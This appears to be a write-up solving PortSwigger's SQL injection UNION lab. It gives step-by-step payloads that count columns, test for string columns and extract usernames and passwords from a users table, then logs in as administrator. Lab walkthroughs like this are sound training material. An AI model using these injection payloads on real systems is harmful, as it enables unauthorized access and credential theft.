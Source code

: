 ## LAB 3: SQL injection UNION attack, retrieving data from other tables
[SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.


## Solution
![LAB SCREENSHOT](./assets/lab3.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both columns are of type strings/varchar


FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT 'abc','def'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the random value with usernames & password.

`' UNION SELECT username, password from users--`

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT username, password FROM users--`


![USERNAME & PASSWORDS SCREENSHOT](./assets/lab3.2.PNG)


### 4. Login as administrator
Login using `administrator`:`nqbbx1zpzvzy6uuczxjl`

![SOLVED LAB SCREENSHOT](./assets/lab3.3.PNG)


<!-- EOF -->